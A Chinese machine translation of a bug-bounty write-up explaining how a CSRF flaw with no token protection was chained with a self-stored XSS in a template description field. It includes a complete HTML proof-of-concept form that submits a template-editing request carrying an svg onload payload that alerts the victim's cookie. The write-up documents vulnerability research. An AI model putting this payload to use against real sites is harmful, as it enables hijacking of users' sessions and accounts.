

# CSRF 的攻击会导致储存 XSS

> 原文：<https://infosecwriteups.com/csrf-attack-can-lead-to-stored-xss-f40ba91f1e4f?source=collection_archive---------0----------------------->



嘿，伙计们，我又在这里写了一篇关于 CSRF 和 XSS 的文章

首先，几天前我测试了一个网站，姑且称之为`example.com`，我在这个网站上发现了一个包含一些功能的子域，于是我开始测试它，我在一个允许 HTML 标签的描述字段上发现了一个自存储的 XSS，我发现了一个 CSRF 攻击来添加 XSS 的有效载荷，但是有一个问题，我应该得到模板 ID 来编辑它，我不能在我离开的时候暴力破解它 独自一人，现在当我返回测试时，我打开我的打嗝并捕捉请求，我发现一个有趣的请求，我将其发送到`Repeater`并再次发送，我发现一个新的模板添加到我的模板列表中，哇，这很好，我扫描了请求，我没有发现任何 CSRF 保护

请求中很酷的东西包括模板 ID，我可以用它在模板字段上添加一些内容。这次我想起了自存储 XSS 的旧错误，所以我试图利用这两个错误一起得到存储 XSS。我创建了一个 HTML 文件作为 POC。这是代码

```
<form action="[https://subdomain.example.com/endpoint](https://subdomain.website.com/endpoint)" method="POST">
  <input type="text" name="svcid" value="WRKSPC_LAYER_SERVICE"><br>
  <input type="text" name="stok" value=""><br>
  <input type="text" name="v" value="0"><br>
  <input type="text" name="clientType" value=""><br>
  <input type="text" name="request" value='{"basePage":{"draftIds":["1514844016810"],"wsId":"-1","wsType":"-1"},"fields":{"title":"CSRF_1","bold":"false"},"fields":{"description":"<font rwr=\"1\" style=\"font-family:Arial\" size=\"4\"><br>\"&gt;<svg onload=\"alert(cookie)\">\n</svg></font>","rteMode":"0"},"mode":"INDIVIDUAL","action":"SAVE","layerName":"EDITPANE","variation":null,"currencyInfo":{"currencySymbolLeft":true,"singularName":"U.S. dollars","moneySymbol":"$","decimalSymbol":".","groupingSymbol":",","gS":",","decimalPlaces":"2","currencyCode":"USD","pluralName":"U.S. dollar"},"singleList":true,"listingMode":"AddItem","updateRequired":true,"customFields":{},"byPassUpdate":false,"sellerType":"C2C","saveUlsi":true,"edpCrNew":false,"deletedFields":[],"customAttributes":{"PL_SELLER_ELIGIBLE":"1","PL_FORMAT_ELIGIBLE":"1","PL_CATEGORY_ELIGIBLE":"1","PL_ALREADY_OPTED":"0"},"draftMode":"Listing","restricted":false,"customPreference":{"preferences":{"scheduleStartTime":true,"reservePrice":true,"sellAsLot":true,"privateListing":true,"salesTax":true},"sellerDetails":["BUSINESS_POLICY","NO_STORE_SUBSCRIPTION","NO_SHIPPING_DISCOUNTS","NON_SM_SELLER"]},"payments20":false,"templateId":5553489011,"isvShown":false}'><br>
  <input type="submit" value="send">
</form>
```

这段代码将发送一个编辑 id 为`1514844016810`的模板的请求，所以服务器不会找到具有该 id 的模板，所以他将创建它并添加新值，该值是添加到描述中的 XSS 有效载荷，当受害者访问他的模板列表时，他将找到一个新的，所以他将打开它，然后 XSS 有效载荷将被执行，我是:

我希望你们喜欢它，伙计们，再见，再见。